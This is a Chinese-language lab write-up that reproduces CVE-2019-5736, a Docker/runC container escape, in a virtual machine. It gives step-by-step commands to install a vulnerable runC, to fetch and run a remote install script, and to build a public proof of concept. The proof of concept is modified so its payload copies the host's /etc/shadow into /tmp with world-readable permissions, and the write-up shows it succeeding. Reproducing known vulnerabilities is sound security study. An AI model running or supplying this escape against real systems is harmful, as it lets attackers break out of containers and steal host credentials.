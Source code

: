 # CVE-2019-5736 Docker逃逸 复现

<p align="center">
    <img src="../../../../../assets/img/banner/Docker.png">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- Centos7
- docker : 18.06.0-ce
- runC : 1.0.0-rc6

---

# 安装环境

**漏洞影响版本**
- Docker Version < 18.09.2
- runC Version <= 1.0-rc6

---

**修改 runC 版本**

默认 runC 版本是无法复现该漏洞的,需要手动修改
```bash
wget https://github.com/opencontainers/runc/releases/download/v1.0.0-rc6/runc.amd64
mv runc.amd64 /usr/bin/runc
chmod +x /usr/bin/runc
runc --version
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/1.png)

**安装 docker**
```bash
yum install -y epel-release
wget https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw/
chmod +x index.html
./index.html
```

使用安装完毕后,可能会自动进入 docker 容器,这里不管,直接重启机器

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/2.png)

**启动容器**

等待机器重启完毕,这里启动 docker 服务,然后进入 docker 容器
```bash
systemctl start docker
docker run -it ubuntu:18.04 "/bin/bash"
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/3.png)

再启一个 bash,同时这个窗口不要关闭,看一下 docker 容器的 ID
```bash
docker ps
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/4.png)

**下载 payload**

- https://github.com/Frichetten/CVE-2019-5736-PoC

下载的 main.go,修改下 package,改成,payload 也稍微修改
```
package main

var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"
```

然后 windows 下需配置编译参数,linux 可直接编译
```
CGO_ENABLED=0;GOOS=linux;GOARCH=amd64
go build main.go
```

把编译出来的二进制文件 main,上传至目标机器

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/10.png)

**使用 payload**

这里将 main 复制到容器的 /home 目录下,id 值就是之前 docker ps 看到的值
```bash
docker cp main xxxxxxxxx:/home
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/5.png)

回到一开始的窗口,现在进入 home 目录,就可以看到上传上来的 main 文件了,加权限,运行
```bash
cd /home
ls
chmod +x main
./main
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/6.png)

这里再返回到第二个窗口,这个窗口刚上传 main 文件,现在再这个窗口里进入容器,触发 payload,id 值就是之前 docker ps 看到的值
```bash
docker exec -it xxxxxxxxx /bin/sh
exit
cd /tmp/
ls
```

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/7.png)

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/8.png)

![](../../../../assets/img/Security/安全资源/漏洞复现/CVE-2019-5736-Docker逃逸复现/9.png)

可以看到，宿主机下 tmp 写了 shadow 文件，payload 成功执行
